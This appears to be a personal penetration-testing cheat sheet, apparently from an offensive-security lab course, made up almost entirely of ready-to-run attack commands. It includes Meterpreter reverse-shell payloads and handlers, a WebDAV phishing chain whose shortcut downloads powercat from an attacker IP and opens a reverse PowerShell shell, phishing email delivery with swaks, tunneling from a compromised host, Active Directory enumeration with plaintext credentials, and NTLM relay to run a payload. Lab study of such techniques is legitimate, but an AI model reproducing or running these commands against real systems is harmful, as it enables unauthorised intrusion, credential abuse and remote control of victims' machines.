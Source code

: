 ```yaml
---

---
```

-------
# Remote Connection

--------
## xfreerdp

```bash
xfreerdp /u:jeff /p:'HenchmanPutridBonbon11' -f /v:192.168.211.75 -grab-keyboard
```

-----
# Metasploit

-----
## Quick Meterpreter Handler

```bash
msfconsole -q -x 'use exploit/multi/handler;set LHOST tun0;set PAYLOAD windows/x64/meterpreter/reverse_tcp; run'
```

## MSFVenom

**Windows x64 Meterpreter**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f exe > backup.exe
```

--------
# Phishing

--------

## WebDav

**1. Create local handler**

```bash
~/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/turtle/offsec/
```

**2. Create config.Library-ms file (change IP)**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.215</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

**3. Create shortcut** (change IP)

```js
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.215:8000/powercat.ps1'); powercat -c 192.168.45.215 -p 4444 -e powershell"
```

**4. Transfer to Kali**

```bash
impacket-smbserver share . -smb2support -username admin -password admin
```

**5. Start powercat and netcat listeners on Kali**

```bash
nc -nvlp 4444
python3 -m http.server 8000
```

**(Optional) 6. Send via email**

```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.210.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

------
## Tunneling

-------

## Ligolo-ng

**Set up**

```bash
sudo ip tuntap add user turtle mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

**From compromised box**

```js
./agent -connect IP:11601 -ignore-cert
.\agent.exe -connect IP:11601 -ignore-cert
```

**Add route (kali)**

```js
sudo ip route add 192.168.96.0/24 dev ligolo
```


-----
# Bloodhound

-------

**Remote bloodhound**

```bash
dnschef --fakeip <DC IP>
```

```bash
bloodhound-python -c all -u john -p 'dqsTwTpZPn#nL' -d beyond.com -dc dcsrv1 -ns 127.0.0.1 --zip --dns-timeout 30
```

> [!info] DNSChef fixes a DNS timeout problem which can occur with bloodhound.py 
> 
> (often occurs when tunneling DNS, idk why)

------
# Relaying

--------

**Relay to target and execute file**

```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.210.242 -e backup.exe
```

> [!info] Look for "SSRF" on Windows machine for potential relay vectors.
> 
> Anywhere you can force a Windows machine to make a connection can potentially be used for relaying. The connection and service type doesn't matter (could be SMB, HTTP, MSSQL etc). Relaying can be used for code execution, priv esc, or info leak, try everything.





